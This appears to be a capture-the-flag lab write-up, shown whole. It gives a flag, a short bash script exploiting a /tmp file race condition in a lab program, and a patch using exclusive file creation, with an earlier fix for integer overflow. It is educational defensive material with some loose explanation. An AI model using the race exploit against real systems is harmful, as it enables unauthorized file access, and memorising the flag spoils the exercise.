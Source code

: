 ### Explanation
The code is vulnerable because the user could calculate a number larger than the maximum integer value. I made the value, factor, result, and password variables all long longs to remove the integer overflow issue. Additionally, you need to update the print statement to use the %lld format specifier so that the input values are read as long long.

---

## problem5

### Flag
`flag{366-r5C3c0nd170n}`

### Exploit Steps
1. Create a bash script that runs the `problem5` and creates the file before `problem5` checks for: 
   #!/bin/bash
   ./problem5 &
   pid=$!
   sleep 0.05
   touch /tmp/$pid

### Patch
```diff
--- .originals/problem5.c	2023-03-03 22:16:49.000000000 +0000
+++ problem5.c	2023-03-12 20:02:38.599461100 +0000
@@ -2,9 +2,9 @@
 #include <stdio.h>
 #include <unistd.h>
 
-void flag() {
-  printf("The flag goes here");
-}
+void flag() {
+  printf("The flag goes here");
+}
 
 int main() {
   // Get the name of a tempfile we can use. It won't exist yet.
@@ -19,7 +19,7 @@
 
     // Ok, let's open this file and write the flag to it.
     // Haha... just kidding, the user doesn't have access to the file, so this call will fail.
-    FILE *outFile = fopen(destinationFile, "r");
+    FILE *outFile = fopen(destinationFile, "wx");
     if (outFile == NULL) {
       printf("This is my file... I told you that you couldn't access it. Neener-neener!\n");
       // If the file did exist, we would write to it here.

```
